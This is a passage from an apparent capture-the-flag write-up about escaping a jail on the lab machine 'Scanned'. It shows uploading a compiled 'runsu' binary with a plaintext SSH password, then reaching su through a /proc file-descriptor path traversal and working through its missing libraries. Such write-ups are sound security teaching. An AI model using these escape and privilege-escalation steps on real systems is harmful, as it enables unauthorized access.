 I’ll compile this and upload it to Scanned:

    
    
    oxdf@hacky$ gcc runsu.c -o runsu
    oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp runsu clarence@10.10.11.141:/dev/shm
    

#### Run It

If I run this via `sandbox`, it reports that it can’t find `libpam.so.0`:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a 
    /proc/1/fd/3/../../../../../../../usr/bin/su: error while loading shared libraries: libpam.so.0: cannot open shared object file: No such file or directory
    Exited
    Kill err: (3)
    

This is the first of several imports that are required. These imports are not
required by my binary:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ldd /dev/shm/runsu 
            linux-vdso.so.1 (0x00007ffdaa7fc000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5e6b3b6000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f5e6b587000)
    

`linux-vdso.so.1` is a virtual file that’s not on the disk, but [actually part
of the kernel](https://stackoverflow.com/questions/58657036/where-is-linux-
vdso-so-1-present-on-the-file-system). `libc.so.6` and `ld-linux-x86-64.so.2`
were the two files copied into the jail.

Looking at `su`, it requires more (the first being `libpam.so.0` which is
where it’s failing):

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ldd /usr/bin/su
            linux-vdso.so.1 (0x00007ffff6cb3000)
            libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007f83c279e000)
            libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007f83c2799000)
            libutil.so.1 => /lib/x86_64-linux-gnu/libutil.so.1 (0x00007f83c2794000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f83c25cf000)
            libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007f83c259e000)
            libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f83c2598000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f83c27ca000)
            libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007f83c258e000)
            libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f83c256c000)
    

#### Run with Fixed Libs

I’ll use a similar loop to last time, except this time I can sleep longer
because I have the 3 second sleep at the start of `runsu`. I’ll copy all the
libs into the jail to be lazy/safe:
